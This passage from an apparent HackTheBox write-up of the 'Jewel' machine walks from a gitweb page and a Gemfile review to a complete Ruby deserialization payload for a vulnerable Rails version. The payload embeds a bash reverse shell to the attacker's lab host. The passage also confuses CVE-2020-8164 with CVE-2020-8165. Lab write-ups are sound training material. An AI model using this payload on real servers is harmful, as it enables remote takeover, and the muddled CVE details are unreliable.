 We open it on the browser and see what is being shown.

When tryied to access 10.10.10.211 on the browser.

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-16-HackTheBox-Jewel/2021-09-16-HackTheBox-Jewel%2001:26:17.png)

It seems to be a git page. It is a [gitweb](https://git-scm.com/docs/gitweb) page.

After looking for something interesting, we found a commit on a project with a snapshot

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-16-HackTheBox-Jewel/2021-09-16-HackTheBox-Jewel%2001:29:12.png)

We download it and see that we will need to make a code analysis.

After download and extract it we see some hidden folders

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-16-HackTheBox-Jewel/2021-09-16-HackTheBox-Jewel%2001:31:12.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-16-HackTheBox-Jewel/2021-09-16-HackTheBox-Jewel%2001:31:58.png)

### Code Analysis

So, let's start making some code analysis in it to see what we can explore

It has a `Gemfile`, so we can imagine that it's running Ruby On Rails.

We start looking for some vunls but did no find anyone. So we looked at the version of apps installed on the Gemfile

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-16-HackTheBox-Jewel/2021-09-16-HackTheBox-Jewel%2001:33:53.png)

And we see that the version of `Rails` installed maybe vulnerable.

We found a exploit in [CVE-2020-8164](https://www.rapid7.com/db/vulnerabilities/ruby_on_rails-cve-2020-8164/)

Which defines the vulnerability as:

```
A deserialization of untrusted data vulnerability exists in rails < 5.2.4.3, rails < 6.0.3.1 which can allow an attacker to supply information can be inadvertently leaked fromStrong Parameters.
```

We start looking for PoCs or more explanation about how this vulnerability occurs.

We find some interesting sites. [HackerOne](https://hackerone.com/reports/413388), and this PoC on [GitHub](https://github.com/masahiro331/CVE-2020-8165).

The payload we found is this

pay.rb

```rb
require 'erb'
require 'uri'
require 'active_support'
require 'active_support/core_ext'

code = '`/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.20/4444 0>&1"`'

erb = ERB.allocate
erb.instance_variable_set :@src, code
erb.instance_variable_set :@filename, "1"
erb.instance_variable_set :@lineno, 1

payload = Marshal.dump(ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result)

puts URI.encode_www_form(payload: payload)
```
